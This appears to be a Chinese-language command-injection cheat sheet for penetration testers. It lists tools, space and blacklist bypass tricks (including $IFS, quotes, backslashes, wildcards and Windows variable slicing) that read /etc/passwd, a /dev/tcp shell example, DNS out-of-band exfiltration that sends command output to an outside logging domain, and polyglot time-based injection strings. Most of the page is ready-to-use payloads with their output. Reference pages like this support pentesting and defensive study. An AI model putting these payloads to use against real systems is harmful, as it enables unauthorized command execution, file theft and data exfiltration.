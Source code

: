 # 命令注入

> 命令注入是一种允许攻击者在易受攻击的应用程序中执行任意命令的安全漏洞。

## 目录

* [工具](#工具)
* [绕过技巧](#绕过技巧)
  * [绕过空格](#绕过空格)
  * [黑名单绕过](#黑名单绕过)
   * [利用换行绕过](#利用换行绕过)
   * [使用单引号](#使用单引号)
   * [使用双引号](#使用双引号)
   * [使用正/反斜杠](#使用正/反斜杠)
   * [使用$@](#使用$@)
   * [使用通配符](#使用通配符)

* [DNS带外传输](#DNS带外传输)
* [多种混合绕过](#多种混合绕过)
* [参考](#参考)
    

## 工具

* [commix - Automated All-in-One OS command injection and exploitation tool](https://github.com/commixproject/commix)


## 绕过技巧

### 绕过空格

#### linux

```
root@kali:~/Desktop# cat</etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# {cat,/etc/passwd}

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# cat$IFS/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# cat${IFS}/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

```
root@kali:~/Desktop# X=$'uname\x20-a'&&$X

Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
```

```
root@kali:~/Desktop# sh</dev/tcp/127.0.0.1/9999
root

root@kali:~/Desktop# nc -lvvp 9999
listening on [any] 9999 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 34274
whoami
```

#### linux bash

Commands execution without spaces, $ or { } - Linux 

```
IFS=,;`cat<<<uname,-a`
```

#### windows

```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```


### 黑名单绕过

#### 利用换行绕过

```
something%0Acat%20/etc/passwd
```

#### 使用单引号

```
root@kali:~/Desktop# w'h'o'am'i

root
```

#### 使用双引号

```
root@kali:~/Desktop# w"h"o"am"i

root
```

#### 使用正/反斜杠

```
root@kali:~/Desktop# w\ho\am\i

root
```

#### 使用$@

```
root@kali:~/Desktop# who$@ami

root

```

```
root@kali:~/Desktop# echo $0

bash
```


#### 使用通配符

```
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

```
C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## DNS带外传输

```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'

ping -c 1 `ls`.3a43c7e4e57a8d0e2057.d.zhack.ca
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

推荐的在线dns测试平台：

- dnsbin.zhack.ca
- pingb.in

## 多种混合绕过

```
bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

e.g:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```

```
bash
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

e.g:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```

## 参考

* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)
* [Bug Bounty Survey - Windows RCE spaceless](https://twitter.com/bugbsurveys/status/860102244171227136)
* [No PHP, no spaces, no $, no { }, bash only - @asdizzle](https://twitter.com/asdizzle_/status/895244943526170628)
* [#bash #obfuscation by string manipulation - Malwrologist, @DissectMalware](https://twitter.com/DissectMalware/status/1025604382644232192)
